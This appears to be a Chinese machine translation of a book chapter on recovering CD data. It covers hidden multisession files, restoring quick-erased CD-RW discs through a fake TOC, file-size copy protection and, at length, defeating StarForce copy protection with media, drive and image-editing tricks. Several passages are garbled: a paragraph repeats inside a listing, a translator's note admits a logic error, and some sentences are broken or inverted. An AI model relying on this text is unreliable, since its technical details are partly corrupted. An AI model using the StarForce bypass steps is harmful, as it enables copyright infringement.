微软在宣布支持多会话（`multisession`）`CD` 后，对于这种支持仅部分适用于其操作系统（包括 `Windows 9x` 和所有版本的 `Windows NT`，直到 `Windows 2000`）保持了沉默。每个会话都是独立的卷（`Windows` 术语中称为逻辑光盘），它有自己的文件系统和文件。由于 `CD` 扇区的透传编号，一个会话的文件系统可以引用物理上位于任何其他会话的文件。为了确保能够像处理统一卷一样处理光盘，最后一个会话的文件系统必须包含之前所有会话的文件系统的内容。如果不满足这一条件，在使用标准设备查看光盘时，所有其他会话的目录（`TOC`）将会丢失。这是因为 `Windows` 只挂载光片的最后一个会话，而忽略所有其他。刻录 `CD-R` 和 `CD-RW` 的程序默认会将之前会话的文件系统内容添加到当前会话中。然而，这并不意味着最后一个会话总是包含之前会话中存在的所有内容。

例如，看看文件是如何从 `CD-R` 或 `CD-RW` 中删除的。不，这不是打印错误（或错误或笑话）。从原则上讲，`CD-R` 的内容是可以删除的，尽管它们无法被重写。为了模拟删除，`CD` 刻录机简单地在最后一个会话的文件系统中不再包含对已“删除”文件的引用。（并不是所有程序程序都能做到这一点。例如，`Roxy Easy CD Creator` 提供了这种可能，而 `Stomp RecordNow` 则不能。)“被删除”的文件仍然存在于光盘上。它物理上存在因为它占用了一些空间。尽管如此，当使用 `Windows` 内置工具查看光盘内容时，该文件不会显示在目录中。如果可用光盘空间没有增加反而被*减少*了，那么从 `CD-R` 上“删除”文件的意义何在？这种操作的意义（如果我可以用“意义”这个词的话）在于向普通用户隐藏这些“被删除”的文件。当使用标准工具查看光盘内容时，被删除的文件是不可可见的，它们对普通用户来说在形式上是不可用的。结果就是它们无法通过 `Windows` 内置工具访问。另一方面，`Macintosh` 允许用户挂载任何光盘会话作为一个单独卷；因此，在 `Mac OS` 下查看缺失的光盘时，所有“被删除”的文件会立即恢复。

从 `CD-RW` 删除信息的情况也类似。尽管理论上可以物理销毁其内容，但刻录程序只支持清空整个光盘的功能，无法删除单个文件。因此，之前关于 `CD-R` 的所有说法都适用于 `CD-RW`。

因此，如果你将信息写入光盘以传递给第三方，永远不要使用包含过机密数据的光盘。之前写入光盘的数据被删除并不意味着完全移除。

## 第 10 章：恢复 CD 257

当你查看从朋友或同事处收到的、甚至只是从垃圾中找回的 `CD` 内容时，尝试查看之前的会话是有意义的。有时，可以找到很多隐藏的信息。另一方面，你可能需要从你自己的光盘中恢复意外删除的文件，或者恢复整个被意外破坏的会话。（某些刻录 `CD` 的程序允许用户选择：他们可以在创建新会话时添加上一个会话，也可以在新会话中仅包含新文件。在准备刻录 `CD` 时选择错误设置将导致所有之前会话内容的丢失。幸运的是，这种损失是可逆的。）

为了恢复删除的文件，可以使用任何能够检索所选光盘内容并将其转换为 `ISO` 镜像程序。为了区分，请将要恢复的光盘插入驱动器并选择 `CD`。过了一会儿，将会出现对话框  图 10.1。光盘的分析

你可以看到，这个对话框显示了所有会话的列表，以及数量（扇区）和长度（兆字节）。现在，尝试确定光盘上是否有隐藏文件。使用 `dir` 命令显示整个光盘的内容。

### 列表 10.1 显示光盘

```text
dir
驱动器 G 为 0307
卷号为 DD0
目录 G:\
28.05.2003  05:57    47,636 <DIR> .
28.05.2003  05:57    47,636 <DIR> ..
03.06.2003  05:39     76,085 03.06.2003
04.06.2003  05:45     85,410 04.06.2003
05.06.2003  06:06     71,926 05.06.2003
03.07.2003  15:51    106,230 03.07.2003
05.07.2003  06:37      94,860 05.07.2003
08.07.2003  12:51      99,642 08.07.2003
09.07.2003  06:21     138,651 09.07.2003
10.07.2003  14:32     138,543 10.07.2003
9 个文件               76,082,156 字节
1 个文件夹            0 字节可用
```

`Perfid Windows` 显示的是最后一个会话的内容。所有其他会话的内容都是未知的（至少目前如此）。嗯，操作系统可用的九个文件总大小为 72 MB（76,082,156 字节），而所有光盘会话的总大小为 47.66 + 6.50 + 8.21 + 8.04 + 6.91 + 10.62 + 9.04 + 9.10 + 9.22 + 9.46 = 124.76 MB，这长了 55 MB。

写入扇区（`Written Sectors`）字段包含已写入光盘区域的长度，在本示例中接近 255 MB，这对计数没有用，因为光盘区域不仅包含有用数据，还包含每个会话的辅助数据。因此，即使光盘不包含被删除的文件，其实际容量总是小于有效容量。

目前，无法判断被删除的文件位于哪个会话。它们可能存在于任何会话中，甚至同时存在于多个会话中。因此，通常情况下可以顺序查看磁盘上的所有会话。然而，有时也可以找到更快更简单的方法。在所考虑的示例中，磁盘上的会话数量大于 `dir` 命令逐个显示的文件数量，且最后九个分区的大小实际上与与其对应的文件大小相等。磁盘的第一个会话为 48 MB，这不对应任何可见的文件。它包含什么呢？要发现该会话的内容，请将其挂载到单独的卷上。遗憾的是，`Windows` 内置工具不允许直接挂载。你可以通过将会话写入 `ISO` 镜像并将其将其刻录到新的 `CD-R` 或 `CD-RW` 来绕过这一限制。（进行此类实验时最好使用 `CD-RW`，因为光盘可以多次使用。）实现此点的更方便方法是使用 `Alcohol 120%`，它可以将 `ISO` 镜像动态挂载到虚拟 `CD-ROM` 中，从而节省大量时间。遗憾的是，`Alcohol 120%` 没有提供选择要保存会话的功能，始终会将整个磁盘的内容放入正在创建的镜像中。由于这个缺点，该工具不足以执行此处描述的所有实验。


返回 Roxio Easy CD Editor。双击第一个会话或用光标选择它并点击“`Read Track`”按钮。立即弹出“另存为”对话框（图 10.2）。



图 10.2. 允许使用默认设置检索会话的对话框

“`File name`”字段指定镜像名称（默认给镜像分配名为 `Track`），“`Save as`”字段指定文件格式。尝试在此字段上任何花招都是徒劳的，因为该程序的免费版不支持任何其他格式；选择目标文件格式的可能性纯粹是幻觉。

“`Read Data Track Settings`”中包含的设置更有趣。“`Start block`”包含所选会话第一个扇区的 LBA，“`Length in Blocks`”字段指定以扇区为单位会话长度。默认情况下，这些字段包含来自 TOC 的信息。只要 TOC 没有为了防止光盘复制而被刻意修改，就可以依赖这些数据。然而，正如你稍后看到的，TOC 损坏并不是罕见事件。同时，Easy CD Creator 在恢复无效地址轨道方面的能力较为有限，因为在检查起始和结束地址的“正确性”时过于可疑。因此，如果 TOC 说明起始地址大于结束地址，Easy CD Creator 将盲目相信 TOC 信息，所有试图说服它并非如此的尝试都将会失败。因此，如果你打算处理受保护的 CD，我建议你选择一个更智能的工具。

“`Block Size`”字段包含包含用户数据的扇区部分的大小（字节）。这里的选择自由完全是符号性的，因为你无法更改此值。不过，没有必要更改它；Easy CD Creator 不支持扇区扇区。包含用户数据的扇区部分的大小由扇区类型明确定义，因此修改此值没有意义。

简之，你只需要点击“`Save`”按钮，并等待所选会话写入新创建的 ISO 文件中。当此过程完成后，就可以使用 Easy CD Creator 将镜像刻录到新的 CD 上（从“文件”菜单选择“从 CD 镜像刻录 CD”，并指定镜像文件为文件类型）。作为替代方案，可以启动 `Alcohol 120%` 并

无论哪种方式，你都会重新获得对删除文件的访问权限，并对它们进行随随所欲的操作。

在查看提取会话的内容时，始终记住，物理上属于不同会话的内容无法从当前会话访问，尽管可能存在大量引用。如果你访问一个不存在的文件，系统要么显示错误消息，要么输出


**重要**

无意义的垃圾数据。操作系统甚至可能会死机。如果发生这种情况，只需弹出光盘，随后 Windows 将欢快地报告“设备未就绪”。此外，由于扇区的透传寻址，每个“提取”的会话将被写入其之前占据的相同磁盘位置；否则对该会话内文件起始地址的所有引用将失效。所需的结果通常通过更改第一轨道的起始地址来实现。这种技术将在本章的下一节描述，该节将集中于从清除的 CD-RW 中恢复信息。

# 第 10 章：恢复 CD

## 恢复清除的 CD-RW

清除 CD-RW 有两种本质不同的方法：快速清除和完全清除。执行快速清除时，仅从磁盘中移除 TOC 区域。结果是磁盘看起来是空的，尽管其主要内容保持完好。相反，执行完全清除时，最后会“刻录”整个磁盘表面，从第一个坑（一个微型凹陷）到最后一个。这个过程大约需要 10 分钟，而快速清除几分钟即可完成。

恢复完全清除的光盘只有使用能够检测反射层反射特性即使细微变化的特殊设备才能实现。这种设备大多数用户都无法获得。另一方面，使用快速方法清除的光盘可以在标准刻录机上恢复，尽管并非每个型号都适用于此目的。

我不会关注此问题的伦理方面。为了简单起见，假设你需要恢复自己不小心擦除的 CD-RW。或者假设这是雇主要求的一项合法操作。（请记住，从他人的已擦除 CD-RW 中恢复机密信息可能归类为未经授权访问信息，并可能带来法律后果。）要进行与从清除的 CD-RW 中恢复信息相关的实验，你需要：

- 一个不过于仔细检查 TOC 正确性、支持原始一次刻录模式（`raw disc-at-once mode`）并能读取第一轨道引导内容的 CD-RW 驱动器。记住，并非每个 CD-RW 驱动器都适用于此目的；因此要准备测试许多不同的设备。例如，在我拥有的两个设备中，只有 `NEC` 驱动器适用于此目的；`Philips` 则无法做到。
- 具有高级功能的刻录软件，允许根据需要操作磁盘的服务区域。例如，你可以使用 `CloneCD`、`CDRWin`、`Alcohol 120%` 或任何类似的工具。然而，这不是一个原理或概念上的限制。从驱动器固件中移除“额外”检查将允许你轻松读取此类光盘。我并不是建议你拆解固件代码。这是一项困难且耗费精力的任务，最重要的是，具有潜在危险。如果你错误地破解了固件，将毁掉整个驱动器且无法修复。所以请换条路吧！

## 第10章：恢复CD 263

我建议的恢复信息的方法向光盘写入一个虚构的 TOC（光带表）。该 TOC 的引导（lead-in）和出的（lead-out）地址必须分别指向光盘的第一个和最后一个扇区，第一个轨道的起始地址必须与前间隙（pre-gap）区域的结束完全对齐。根据标准，该区域必须不少于150个扇区（如果转换为绝对地址，则为2秒）。在完成这一简单操作后，驱动器将听从读取已清除光盘的原始内容，前提是你可以调整CD刻录软件，使其不会尝试将向其提供的引导和出的区域指针解释为在写入虚构 TOC 后刻录整个光盘表面的指令。

经验表明，`CloneCD` 拒绝写入此类 TOC，抱怨光盘和镜像文件的大小不匹配。`Alcohol 120%` 则通过向整个光盘填充不可思议的垃圾数据来实现这一点，虽然没有任何抱怨，但这种方式并不理想。它会提示你发生了写入错误，也许你必须检查设备的可用性。

尝试另一种方法。在光盘上写入一个真实的轨道，占用最大数量的扇区（标准是300个，尽管某些驱动器接受更的值），但将前间隙从2秒扩展到整个光盘。结果是，你会丢失300个末尾扇区；作为交换，你将获得光盘剩余部分的访问。考虑到光盘上有略多300,000个扇区，很容易判断成功恢复的信息将占光盘总容量的99.999%，前提是整个光盘都充满了有用信息（这本身就是很罕见的）。如果你对此不满意，开发一个可以正确写入虚构 TOC 的自定义程序是有意义的。光盘在任何情况下都会写入 TOC区域；但如果你仔细处理光盘，也可以不带出的区域。在这种情况下，主要目标是尝试正确读取超出光盘限制的扇区。否则，驱动器的行为将变得不可预测。不过我应该指出，我从未遇到过需要恢复完全填充的光盘的情况。

恢复程序包含三个部分：准备具有正常前间隙的轨道源镜像、将前间隙扩大到整个光盘的大小，以及修复后的镜像写入需要恢复的光盘。前两个步骤可以在一次操作中完成，因为生成的镜像（我稍后将其称为修复镜像）可以用于所有光盘（即所有相同容量的光盘）；由于明显的原因，使用一个为80分钟光盘设计的镜像正确恢复23分钟的光盘，反之亦然。


## 264 第三部分：备份介质数据恢复

取一张空白 CD-RW。（在这种情况下，“空白”不是指“从未写入过的”，而是指“通过快速擦除或完全擦除已清除的”。CD-R 也同样适用。）使用任何标准的 CD 刻录工具，并写入一个超过 500 KB的文件（较大的文件将无法放入计划的300个扇区内）。没有必要对光盘进行最终刻录（finalize）。

启动 `CloneCD`（或 `Alcohol 120%`）并获取光盘镜像。几分钟后，硬盘上会出现两个文件：一个带有 `IMG` 扩展的文件，另一个带有 `CCD` 扩展。如果你指示 `CloneCD` 保存子通道信息，将会有第三个 `SUB` 扩展的文件。然而，子通道信息与其说是帮助不如说是麻烦。建议禁用“从数据轨道读取子通道信息”选项，或从光盘上删除 `SUB` 扩展的文件。`CloneCD` 建议你创建的用于与其他程序（特别是 `CDRWin`）兼容的索引文件（cue sheet）也是没有必要的。

使用任何文本编辑器（例如记事本）打开 `CCD` 扩展的文件。然后使用 `Point = Ox2` 和 `Point = O01` 关键字搜索文件。搜索结果如列表 10.2。

### 列表 10.2 出的原始起始地址（左）和第一个轨道的起始地址（右）

| [Entry 2] | [Entry 3] | TOC 条目 |
|---|---|---|
| Session = 1 | Session = 1 | 会话数 |
| Point = Ox2 | Point = Ox01 | 点 (A2h:出的地址/01h:轨道编号) |
| ADR = Ox01 | ADR = Ox01 | q-子通道中的数据位置 |
| Control = Ox04 | Control = Ox04 | 数据轨道 |
| TrackNo = 0 | TrackNo = 0 | 引导轨道 |
| AMIn = 0 | AMIn = 0 | \ |
| ASec = 0 | ASec = 0 | +- M:S:F 中的绝对地址 |
| AFrame = 0 | AFrame = 0 | ; |


| `ALBA` = -150 | `ALBA` = -150 | - LBA 中的绝对地址（无损坏） |

| `Zero` = 0 | `Zero` = 0 | 预留 |

| `PMin` = 0 | `PMin` = 0 | \ |

| `PSec` = 29 | `PSec` = 1 | +- M:S:F 中的相对地址 |

| `PFrame` = 33 | `PFrame` = 0 | ; |

| `PLBA` = 2058 | `PLBA` = 0 | ; LBA 中的相对地址 |

## 第10章：恢复CD 265

更改属于点 `A2h` 的 `PMin:PSec:PFrame` 字段，使它们指向光盘末端（`A2h` 代表出的）。更改后的出的地址可能如下：`74:30:00`。出的地址必须选择，以确保它与光盘边缘之间留有至少30秒的间隙。如果出的宽度约为90秒更好。但在这种情况下，恢复的光盘的最后一个轨道将丢失。

属于点 `01h`（第一个轨道的起始地址）的 `PMin:PSec:PFrame` 内容必须增加与添加到相应出的字段相同的值。例如，修改后的变可能如下：`74:01:42`。（`74:30:00` / *新的出的地址* - `00:29:33` / *旧出的地址*/ + `00:01:00` / *第一个轨道的起始地址* / = `74:01:42` / *新的第一个轨道的起始地址*）。CD文件的新版本必须如列表 10.3所示。

### 列表 10.3 75分钟CD-RW“复活文件”的关键片段

[Entry 2] [Entry 3]

`Session` = 1 `Session` = 1

...

`PMin` = 74 `PMin` = 74

`PSec` = 30 `PSec` = 01

`PFrame` = 00 `PFrame` = 42

为了准确，编辑 `LBA` 是理想的（`LBA` 与绝对地址的公式为：`LBA == ((Min*60) + Sec)*75 + Frame`）。然而，当前版本的CD刻录软件只使用绝对地址，忽略了 `LBA`。现在整个光盘都充满了有用信息（这本身就是很罕见的）。如果你对此不满意，开发一个可以正确写入虚构 TOC 的自定义程序是有意义的。光盘在任何情况下都会写入 TOC区域；但如果你仔细处理光盘，也可以不带出的区域。在这种情况下，主要目标是尝试正确读取超出光盘限制的扇区。否则……[你无法扇区]

# 第10章：恢复CD 267

即使在多次尝试之后也会被跳过。现在，将“复活器”CCD 文件复制到 `recover.ccd` 文件中，并将第一个轨道的起始地址恢复到其初始位置。将新生成的光盘镜像写入新光盘。如果一切操作正确，任何驱动器都能无问题地读取它。动画测试课程已成功完成。现在，你已经积累了必要的经验，可以着手更严肃的任务了——例如，开始经营你自己的恢复意外清空 CD 的小生意。开玩笑的。

如果被清除的光盘是多扇光盘（multisession disc）该怎么办？毕竟，之前的技术是针对单会话设计的。多扇光盘也可以恢复，而且这项任务只是稍微复杂一点。然而，为了实现这一点，你必须先熟悉 TOC（扇区）的其他字段。

但如果光盘在清除后又被写入了内容呢？这种情况下还能恢复吗？这取决于情况。直接擦除的位置会丢失。但剩余的信息仍然可以恢复。如果如果在清除之前它是多扇光盘，你就不需要费力恢复文件系统，因为每个后续会话的文件系统通常与前一个重复（“通常”意味着除了删除了文件的情况以外的所有情况）。同时，最后一个光盘会话距离光盘的开头非常远。因此，擦除它的风险降到了最低（前提是你及时注意到了这一点，而不是在重写了整张光盘后才突然想起）。恢复丢失文件系统的单会话光盘是一项更困难的任务，尽管它是可能的。首先，一张典型的光盘有两种类型的文件系统：`ISO9660` 和 `Joliet`。不幸的是，由于它们的“地理”位置非常近，两者在擦除光盘的过程中都会被破坏。其次，这些文件系统不支持碎片化，任何写入 CD 的文件都代表一个连续的信息块。恢复它你只需要确定其入口点和长度即可。文件的入口点始终与扇区的起始点重合，而且绝大多数文件类型都允许你通过唯一签名来识别其文件头（特别是 Zip 文件的特征是：`50 4B 03 04`）。文件的结束无法这样确定地检测到；唯一的线索是文件的结构。尽管如此，大多数应用程序都能容忍文件尾部的各种杂乱垃圾，因此在实践中，确定文件长度时，一个扇区的精度就足够了。因为文件在光盘上是连续存储且没有隙的，通过将下一个文件的起始地址减1，就可以可靠地识别任何文件的终止扇区。

通常情况下，恢复 CD 的技术比恢复它们的“近亲”——软磁盘和硬盘要简单得多。另一方面，俄罗斯谚语“运工如斧，砍七刀”仍然适用。处理 CD-RW 最不愉快的特征之一是，你无法在写入过程中进行控制。软磁盘和硬盘在在这方面是完全透明的——你写什么就得到什么。相反，CD-RW 是一种“黑盒”。你永远无法确定特定的驱动器是否会正确解释传递给它的命令。CD-RW 的恢复不是标准操作，任何非标准的操作可能会被不同的驱动器产生不同的解释。这里能给出的建议如下：不要让事情顺其发展。实验，实验，再实验。这将使你积累宝贵的经验，这些经验有时会提供不可估量的帮助。

# 无效的文件大小

在单色终端和第一代磁性磁盘时代，已经有了一种丑陋但简单的保护技术，可以防止介质在文件层被复制。通过更改文件结构，保护开发者可以“破坏”软磁盘，使其只有在考虑了引入的更改的情况下才能对其进行操作。保护程序由于感知系统错误，可以与之一起运行而不会遇到任何问题。然而，操作系统的标准内置工具无法做到。请注意，在那个时代，“黑客”复制器尚未普及。

保护通常由几个指向公共簇（clusters）的文件组成。在这种情况下，向同一个文件写入数据会导致它立即出现在另一个文件中，保护机制可以利用这一点来实现其目的。在将文件复制到另一块磁盘后，公共簇被写入不同的位置，狡猾的隐式数据交换机制就会停止工作。保护程序也会停止工作。这只有在用户成功复制磁盘内容的情况下才会发生。带有重叠簇的文件复制会导致它们在每个复制的文件中重复。因此，文件大小增长到这种程度，以至于整个硬盘的容量都不够存储它。如果文件的最后一个簇恰好“粘接”在它的起始点（即文件循环了），那么它的大小和复制所需的时间将变成无限大。“磁盘医生”已经出现了，但它们无法产生预期的结果，因为修复文件系统会导致保护系统失效。

# 第10章：恢复CD 269

（例如，在前面的文件循环案例中，如果保护依赖于文件开头紧随结尾之后，那么在用磁盘医生工具处理光盘后，这种技术就失效了，并会产生所有的后果）。

CD 的文件系统与软磁盘上使用的不同。然而，引入错误的通用原理是类似的。通过将受保护文件的虚拟长度增加十倍或更多，保护机制的开发者可以将它们的总大小提高到数百 GB。因此，要复制一张受保护的光盘，你需要一叠 DVD 或一个大驱动器。一个能够“记住”所有文件原始长度的保护机制可以正常运行而不会遇到任何问题。然而，大多数文件复制器不会理解并会发疯。

在原则上，超出文件限制不应该引起任何问题。CD 文件系统不支持碎片化，因此不需要 `FAT`。文件占用连续的扇区序列，只有两个最重要的特征与任何文件相关：以 `LBA` 格式指定的文件的第一个扇区编号，以及以字节为单位的长度。在处理扇区时，所有其他属性（如文件名和创建时间）并不重要。

文件长度的增加会捕获其尾部相邻的几个扇区。只要属于文件的最后一个扇区的编号没有超过光盘最后一个扇区的编号，文件复制就会正常进行。我说的“在原则上”是指复制过程中遇到的其他文件都将包含在正在复制的文件中。如果文件数量超过光盘限制，CD-ROM 驱动器会报告错误并停止读取。操作系统内置的标准复制器以及大多数第三方工具会自动从磁盘上删除未完全复制文件的“尾部”。结果是，用户没有得到结果。

`iso960dir.exe` 工具非常有优势，因为它允许你不仅复制整个文件，还可以复制文件的部分。问题在于决定复制多少字节。换句话说，如何才能确定有用数据从哪里开始，垃圾从哪里开始？为了做出这个决定，最好回顾一下标准，文件在磁盘上按顺序存储，这意味着一个文件的最后一个扇区紧邻另一个文件的起始扇区。由于所有文件的起始扇区都是已知的，确定最后一个文件的实际长度不会太困难。因为 CD 上一个扇区的长度为 2048 字节，任何文件的实际大小可以表示为

如下：（下一个文件的起始地址 - 当前文件的起始地址）* 2048。一切都很简单，不是吗？使用 `iso9660.dir.exe` 工具，我复制了许多受这种方式保护的 MP3 光盘。

## StarForce 化为乌有

邪恶的力量正在侵入！`StarForce` 保护从四面八方进攻，新游戏不再被复制。保护看起来像岩石一样不可逾越。它已经因无法破解而闻名。然而，情况并没有初看看起来那么绝望。除了大路，还有替代的、毫无防备的路线。为了实现所需的目标，可以使用其中之一。

## 什么是 StarForce？

`StarForce`（图 10.3）是一系列旨在保护 CD 不受未经授权复制的保护机制。它与螺旋槽的物理结构绑定，并配备了复杂的反破解机制。这种保护没有采用通过替换单个 JMP 指令就能被轻易破解的原始“敌我识别”检查，而是将光盘的拓扑参数转换为用于主程序体解密的数字。同时，专门的保护组件确保没有人能在解密后保存转储。


部分代码包含在几 MB 的 `protect.dll` 文件中，部分代码分布在驱动程序中，另一部分被编译为在自定义解释器下执行的 p 代码。所有这些组件都实现了许多反调试技术，防止了对保护代码的研究以及对原始光盘的仿真。


图 10.3. StarForce 标志，通过它可以轻松将此保护与其他任何保护区分开来

# 第 10 章：恢复 CD

保护机制在不断演变和积极增强。随着每个新版本的发布，开发者使其变得更加复杂。StarForce 的最新版本与 Windows 操作系统深度集成，甚至修改了其内核，导致系统变得不稳定。在某些情况下，用户丢失数据；在另一些情况下，系统经常显示臭名昭著的蓝屏（BSOD）。有些用户抱怨安装微软的更新后，授权软件意外无法执行，要求他们安装 StarForce 更新（`http://www.star-force.ru/support/sdfruv.zip`）。有时，受保护的光盘无法被系统识别。开发者打算声称保护机制一切正常，用户无须自责。

此外，如果系统中存在 IDE 驱动器，则要求受保护的 CD 从其运行应该是违法的，StarForce 在这方面提出了要求。我使用 SCSI 驱动器工作；然而，我的电脑里安装了一个老式的 2 倍速 IDE CDROM，仅为了播放音频 CD（该驱动器已不再能播放任何其他东西）。谁敢说我无权使用这样的配置呢？

任何保护媒体免受复制的安全机制都是极不受欢迎的。通常，自尊的开发者使用序列号或其他可靠算法，尽管它们很容易破解。这是因为宁愿忍受盗版带来的财务损失，也比维护一个专门的支持服务来响应愤怒用户的投诉并立即纠正问题或退款要好。麻烦的原因并不重要——硬件不兼容、保护缺陷或人为失误。每个自尊的开发者的口号都是“客户满意高于一切”。因此，任何严肃的软件产品都不应该受 StarForce 的保护。

## StarForce 如何工作？

光盘螺旋槽基于对扇区之间角度的测量。类似的技术在 8 位计算机时代就使用过。还有其他以类似方式工作的保护机制，如 CD-COPY 和 SecureROM，因此 StarForce 的想法很难说是革命性的。然而，这并没有阻止开发者为其申请专利，或者至少声称他们已经这样做。好了，与其讨论法律问题和抒情离题，不如讨论技术细节。

CD 螺旋槽与唱片相似，不同在于它从光盘的内边缘开始，而不是唱片的外部边缘，这意味着播放是从内边缘向外边缘。激光读写头悬挂在磁场中（类似于声学系统中音圈的支撑方式），在滑轨上跨越螺旋槽移动。轨道由包含数据的扇区和分布在螺旋槽上的子代码道组成。扇区的数量位于扇区头中也位于子代码道中。为了在所需的扇区上方进行粗略定位，使用了滑轨和子代码道；而为了精调，则采用了扇区头和磁场偏差。

仅仅测量螺旋槽的结构是不可能的；但可以采用以下方法（图 10.4）。假设磁头读取扇区 X，然后读取扇区 Y。如果由光盘中心 `O` 发射并通过 X 和 Y 扇区的两条光线形成的 `XOY` 角大约为 15 度，且这两个扇区位于螺旋槽的相邻圈上。在这种情况下，驱动器只需偏离磁头就足够了；几分之一钟后，Y 扇区将立即无法对其使用，因为光盘正在旋转。如果扇区之间的角度小于 15 度，那么在移动磁头所需的时间内，Y 扇区将移远，驱动器必须等待 CD 旋转。


图 10.4. 如果扇区之间的角度小于 15 度，那么在移动磁头所需的时间内，Y 扇区将移远，驱动器必须等待 CD 旋转。


图 10.5. 正在工作的 Bus Hound

因此，通过测量扇区对的读取时间，可以大致确定它们在螺旋槽上的关系。这种关系对于不同的批次是不同的（因为每毫米的扇区密度和螺旋斜率不同）。为了避免大多数驱动器的预取特性，保护机制必须按降序读取扇区。StarForce 的运行恰恰如此。图 10.5 显示了 Bus Hound 追踪的保护操作。请注意，在例示例中使用了 SCSI 驱动器；对于 IDE，程序化追踪没有用，因为保护机制正与其配合工作。

首先，保护程序对表面进行分析，并确定旋转一周所需的时间。然后它评估测量离散度，据此确定密钥的偏差容差。螺旋槽分析的结果列在列表 10.4 中。

### 列表 10.4 螺旋槽分析的结果

```
049634 292ms
04961f 192ms
04960a 8.5ms
0495f5 8.3ms
0495e0 8.5ms
0495cb 8.5ms
0495b6 8.5ms
0495a1 8.5ms
04958c 8.5ms
049577 8.5ms
049562 8.5ms
04954d 8.5ms
049538 8.5ms
049523 8.5ms
04950e 7.7ms
...
048e7e 8.1ms
048e69 8.2ms
048e54 8.2ms
048e3f 8.2ms
048e2a 8.2ms
048e15 8.2ms
048e00 8.2ms
```

从此列表中可以清楚看到，每个数字都比前一个小 `15h`（每圈螺旋包含的扇区数量大约等于该值）。扇区读取时间在 8.1 到 8.7 毫秒之间波动。

第10章：光CD恢复 275

在特征分析后，保护程序会执行一些操作并开始测量角度。列表10.5显示了获取原始光盘的协议。

### 列表 10.5 原始光盘扇区角度的测量

```
051dfe 25ms
051dfa 7.3ms
051df5 6.6ms
051dee 6.2ms
051de6 5.5ms
051ddd 5.2ms
051dd2 12ms
051dc6 12ms
051db9 11ms
051daa 11ms
051d9a 10ms
051d89 10ms
051d76 9.9ms
051d62 9.1ms
051d4c 8.8ms
051d35 8.0ms
```

可以立即注意到，扇区角度的减小步长并不是恒定的。相反，如果它平滑增长，这意味着保护程序正在检查不同的 X 和 Y 组合，并在扇区移动足够远以让驱动器等待整个旋转时进行记录。在这种情况下，该值位于 `051ddd` 和 `051dd2` 之间。访问时间从 5.2 ms 逐步增长到 12 ms；换句话说，增加了一倍多。

现在，考虑保护程序为原始光盘拷贝的数据交换协议（列表10.6）。

### 列表 10.6 拷贝盘扇区角度的测量

```
051dfe 29ms
051dfa 7.3ms
051df5 6.6ms
```

第三部分：备份介质数据恢复

```
051dee 6.2ms
051de6 5.5ms
051ddd 5.1ms
051dd2 4.7ms
051dc6 12ms
051db9 11ms
051daa 11ms
051d89 10ms
051d76 9.9ms
051d62 9.2ms
051d4c 8.8ms
051d35 8.0ms
```

乍一看，此日志与原始光盘的交换协议没有区别；然而，更仔细的调查会让你注意到阶梯式增长发生在 `051dd2` 和 `051dc6` 之间，而不是 `051ddd` 和 `051dd2` —— 换句话说，晚了一步。这就是原始光盘与其拷贝之间的区别。

## 如何破解 StarForce？

创建一个螺旋轨道物理结构的精确拷贝目前是不可能的。已经取得了一些进展。例如，市场上出现了具有可变写入密度的 CD 驱动器，如 Plexor 的 PleX Premium。然而，目前没有 CD 拷贝机支持此功能。我创建了一个实验性拷贝器，通过重新排列扇区编号来模仿原始轨道结构；然而，这个拷贝器尚未最终成为高质量的产品。还有其他想法，预计它们长期来看不会很有活力。我预计 StarForce 的开发者将轻松绕过它们。

这并不重要。在检查螺旋轨道的关键特征之前，保护程序会分析驱动器以评估所有计时特性的稳定性。驱动器质量越高，检查越严格，反之亦然。在老旧且松散的驱动器上，保护程序必须降低要求；否则，即使是授权光盘也会被识别为未经授权的拷贝，这是无法接受的。

第10章：光CD恢复 277

因此，可以得出结论：将光盘拷贝到低质量介质上并尝试在旧驱动器上运行（可以通过调谐特殊修边电阻来干扰自动速度调节器）。拷贝的光盘有被识别为原始盘的机会。如果失败，可以使用另一个制造商的另一批介质重复此技巧。许多用户报告他们将受保护的光盘刻到了 `CD-RW`。由于反射率低，`CD-RW` 的可读性明显不如 `CD-R` 稳定。此外，使用不允许故意减速的驱动器（这意味着像 `CDSlow` 等工具拒绝与它们配合）可能有用。在光盘特征分析过程中，测量值的离程度超过特定值，StarForce 将切换到较低速度。

根据我的经验，为了确保将光盘拷贝到 `CD-R`，必须浪费至少十张来自不同制造商的光盘。这些介质具有不同的螺旋轨道几何结构。为了测量螺旋轨道几何结构，可以使用我随该光盘附带的光盘提供的自定义工具。对于普通黑客来说，他们可以在一天内将游戏从 CD 中解绑（前提是他们已经熟悉 StarForce）。然而，目前还没有人编写通用破解程序，破解程序都是逐个程序进行破解的。


如果是这种情况，启动 `Alcohol 120%` 程序（图 10.6），选择“创建映像”命令，并指定 `StarForce 1.x/2/3.x` 或 `Securum *NEW (V4.x)*` 选项作为数据类型。当选择此选项时，“数据定位测量（高精度）”复选框将自动设置。“读取子通道”复选框将被取消。其他所有项均不设置。在光盘特征分析过程中，测量值的离散程度超过特定值，StarForce 将切换到较低速度。（*注：此处原文似乎存在重复或逻辑错误，翻译已按原文逻辑对应*）。在这种情况下，跳过错误选项可能会导致错误。

## 第三部分：备份介质恢复 278


旧 StarForce 版本可以被欺骗并顺从地与虚拟驱动器工作，然而，新版本并非如此。如果系统中至少有一个 IDE 驱动器，保护程序将拒绝与其他所有驱动器工作。可以拔掉 IDE 线缆（支持热插的驱动器除外）。作为变体，可以购买 SCSI、USB 或 LPT 光驱，并使用如 StarForce 等程序，它可以动态禁用 IDE 通道。然而，新版本的 StarForce 已经学会了应对此。

如果生成的映像不起作用怎么办？首先，必须确保映像已正确创建。启动 `AdvancedMDSEeditor.exe` 程序，打开映像文件，并检查刻读取速度曲线。

## 第10章：光CD恢复 279

如果此曲线出现峰值或不稳定（图 10.7），则该映像是不可用的。在这种情况下，必须选择另一张光盘并重复操作，或者简单地通过“线性插值”或更好是点击“样条图”按钮（图 10.8）来平滑曲线。尝试让曲线尽可能平滑。


